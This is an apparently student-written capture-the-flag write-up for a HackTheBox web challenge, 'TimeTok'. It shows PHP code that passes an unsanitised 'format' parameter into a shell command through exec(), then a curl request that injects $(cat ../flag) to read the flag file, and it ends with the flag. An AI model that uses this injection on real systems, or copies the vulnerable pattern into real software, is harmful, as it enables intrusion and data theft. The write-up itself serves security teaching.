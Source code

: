 # TimeTok

### Overview
This challenge was a Web exploit challenge as a part of CyberHack 2023. This challenge was rated an easy challenge on Hackthebox.

### The Problem
Time is money. Money talks. ALWAYS stay up to date with the current time and date using our brand new service called TimeTok.

### Resources

https://twseptian.github.io/hackthebox/hackthebox%20business%20ctf%202021/ctf/htbbiz2021-time/

Major shoutout to Tri Wanda Septian, this writeup was a 1 for 1 copy of the web challenge TimeTok.
It is ironic, the greatest exploit for TimeTok wasn't the website, it was HTB re-using the challenge.

### Solution

When performing an nmap scan of the target (134.209.28.236:31321), we see that the target has 2 ports open, 80 and 31321. This nmap scan will provide little help for me, so I look towards the files the challenge was providing me with.

When looking at the file TimeController.php, I saw it was a 1 for 1 copy of the file Tri Wanda Septian provided in the resource above.

``````php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
``````

Along with the file TimeModel.php, it was a 1 for 1 copy.
``````php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
``````

Now knowing that HTB re-used the same challenge on a differently formatted website (that in itself is a vulnerability) I followed Tri Wanda Septian instructions, where he used the following command:
``````bash
curl 'http://142.93.35.92:30370/?format=%H-%M-%S-%27;$(cat%20../flag)%27' | html2text | grep HTB{
``````

Lets analyze the three parts of Tri Wanda Septian command
- curl: allows the transfer of data to and from the specified URL
- html2text: this allows HTML to be converted into readable characters
- grep HTB{: this command grabs the string of characters that contain "HTB{" (aka it pulls the flag)

After utilizing this command, the flag is given to me.

### TL;DR
Utilizing an online resouce by Tri Wanda Septian showed that HTB gave us a way to exploit the time call in the php function, allowing us to pull the flag from the HTML.

### Flag
HTB{tim3_t4lks ... 4nd_1t_s4ys_1ts_t1m3_t0_pwn}
(This flag is similar to the flag that Tri Wanda Septian provided, but not exactly the same)
